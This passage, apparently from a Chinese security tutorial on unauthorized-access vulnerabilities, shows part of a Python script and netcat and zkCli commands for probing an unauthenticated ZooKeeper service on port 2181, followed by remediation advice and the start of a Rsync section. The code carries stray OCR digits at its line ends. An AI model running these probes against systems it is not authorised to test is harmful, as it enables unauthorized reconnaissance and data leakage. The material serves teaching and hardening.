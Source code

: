 ```
        exit()      2
    ip = sys.argv[1]      2
    cmd = sys.argv[2]      2
    # envi      2
    # dump      2
    # reqs      2
    # ruok      2
    # stat      2
    check(ip, 2181, 3, cmd)       3
if __name__ == '__main__':      3
    main()
```


```
python2 Zookeeper.py x.x.x.x envi
```




![](https://img-blog.csdnimg.cn/20191224143725353.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**手动检测和利用**



```
echo envi|nc  11.11.177.220  2181            #查看目标主机环境，这个在kali下可直接执行      
./zkCli.sh  -server  11.11.177.220 2181      #连接目标主机Zookeeper服务，这个需要先安装zookeeper，然后到其bin目录下执行
```




 ![](https://img-blog.csdnimg.cn/20190928155143544.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20190928155153502.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**修复方法** 



(1) 修改 ZooKeeper 默认端口，采用其他端口服务，配置服务来源地址限制策略。



(2) 增加 ZooKeeper 的认证配置。



### 八、Rsync 未授权访问漏洞



**漏洞信息**


